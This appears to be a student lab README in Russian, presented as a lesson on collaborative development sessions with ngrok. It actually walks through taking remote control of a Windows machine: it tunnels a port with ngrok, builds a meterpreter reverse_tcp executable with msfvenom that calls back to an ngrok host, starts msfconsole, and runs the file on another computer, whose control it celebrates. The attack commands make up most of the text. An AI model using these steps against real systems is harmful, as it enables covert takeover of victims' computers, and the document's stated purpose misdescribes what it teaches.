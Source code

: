 # lab-11
# Данная лабораторная работа посвещена изучению процесса создания сеансов совместной разработки с использованием инструмента ngrok   
1. Зайдём на сайт ngrok.com пройдем регистрацию и скопируем ссылку для подключения аккаунта через консоль.   


2. Выполним команду:   
``` $ ./ngrok tcp 9999 ```   
9999 - это порт   

![image](https://github.com/Fedorusita/lab-11/assets/112895410/240db9c1-7c7d-436a-9755-f21dfb1b824a)   

3.Откроем новую консоль и пропишем туда:   
``` $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=7.tcp.eu.ngrok.io LPORT=17410 -f exe > payloap.exe ```   

![image](https://github.com/Fedorusita/lab-11/assets/112895410/12873e0a-c2e5-4a8d-8726-f55c00967e14)   

4. Заключительная настройка:
 ``` $ msfconsole ```   
 
 ![image](https://github.com/Fedorusita/lab-11/assets/112895410/06f0b51c-dcce-47ea-be44-5fd59ed88974)   
 
 ![image](https://github.com/Fedorusita/lab-11/assets/112895410/042c0fe1-0e3a-40e4-a735-5ff49f359656)   
 
 ![image](https://github.com/Fedorusita/lab-11/assets/112895410/ca28044b-61b6-45b5-8bee-b25028da3ea1)   
 
 5. Теперь файл payloap.exe запустим на другой машине.   
 Отлично, теперь мы можем управлять машиной, где запущен этот файл с другого компьютера.   
 
 ``` calc ```   
 
 На целевой машине:   
 
 ![image](https://github.com/Fedorusita/lab-11/assets/112895410/7596b3b3-1e14-4b82-89eb-abdf91a007b0)




 



